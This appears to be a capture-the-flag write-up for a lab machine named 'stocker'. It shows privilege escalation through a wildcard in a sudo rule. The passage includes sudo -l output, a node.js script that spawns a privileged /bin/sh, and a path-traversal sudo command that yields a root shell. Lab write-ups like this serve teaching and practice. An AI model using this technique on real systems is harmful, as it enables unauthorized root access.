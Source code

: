 
## Privesc enum

```bash
angoose@stocker:/opt/google/chrome$ sudo -l
[sudo] password for angoose:
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js

```


## Code execution as root due to globing in the sudo line

So because of the globing we can do some directory traversal with that, we just have to drop a node.js script that will drop a shell and preserver privileges:
```bash
angoose@stocker:/usr/local/scripts$ cat /dev/shm/test.js
require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]})
```

And we can call that with some simple path traversal
```bash
angoose@stocker:/usr/local/scripts$ sudo /usr/bin/node /usr/local/scripts/../../../dev/shm/test.js
# id
uid=0(root) gid=0(root) groups=0(root)
# wc ~/root.txt -c
33 /root/root.txt
```
